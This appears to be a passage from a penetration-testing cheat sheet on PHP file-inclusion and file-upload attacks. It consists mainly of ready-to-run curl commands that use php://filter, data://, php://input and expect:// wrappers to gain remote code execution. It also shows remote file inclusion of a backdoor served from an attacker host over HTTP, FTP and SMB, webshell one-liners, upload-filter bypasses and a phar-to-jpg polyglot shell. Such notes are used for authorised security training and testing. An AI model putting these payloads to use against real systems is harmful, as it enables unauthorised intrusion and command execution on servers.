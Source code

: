 | **PHP Wrappers**                                                                                                                | **Description**                                         |
| ------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| `/index.php?page=php://filter/resource=admin.php`                                                                               | Get resource                                            |
| `/index.php?page=php://filter/convert.base64-encode/resource=admin.php`                                                         | Get b64 encoded resource                                |
| `curl "http://host.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`                                 | RCE through wrappers - For GET parameters               |
| `curl "http://host.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"` | RCE through wrappers (b64 encoded) - For GET parameters |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`     | RCE through input wrapper - For POST parameters         |
| `curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"`                      | RCE through RFI                                         |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                            | RCE through expect wrapper                              |
If http RFI is blocked by a firewall or a WAF, we can achieve RFI with ftp or smb (if the app is hosted on a Windows server):
* FTP:
	* Start the server where the php file is located: `sudo python -m pyftpdlib -p 21`
	* Trigger the RFI: `curl "http://mountaindesserts.com/meteor/index.php?page=ftp://192.168.119.3/simple-backdoor.php&cmd=ls"`
* SMB:
	* Start the server where the php file is located: `sudo impacket-smbserver share -smb2support .`
	* Trigger the RFI: `curl "http://mountaindesserts.com/meteor/index.php?page=\\192.168.119.3\share\simple-backdoor.php&cmd=ls"`

### File Upload

**We should always check disabling Front-end validation**

> **Notes:**
> * If `.asp` or `.aspx` are allowed upload a webshell as **[p0wny shell](https://github.com/flozz/p0wny-shell)**
> * If `.php` file is not allowed try:
> 	* `.pHP`
> 	* `.phps`
> 	* `.php7`
> 	* `.phtml`
> 	* `.phar`
> * If `.gif` file is allowed upload: `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`
> * If `.zip` file is allowed upload: `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
> * If `.phar`wrapper is allowed upload a jpg file like this:
> 	```php
> 	shell.php
> 	<?php
> 	$phar = new Phar('shell.phar');
> 	$phar->startBuffering();
> 	$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
> 	$phar->setStub('<?php __HALT_COMPILER(); ?>');
> 	
> 	$phar->stopBuffering();
> 	```
> 	Convert the shell to a jpg image: `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`
> 	And then trigger the shell with phar wrapper: `...index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`
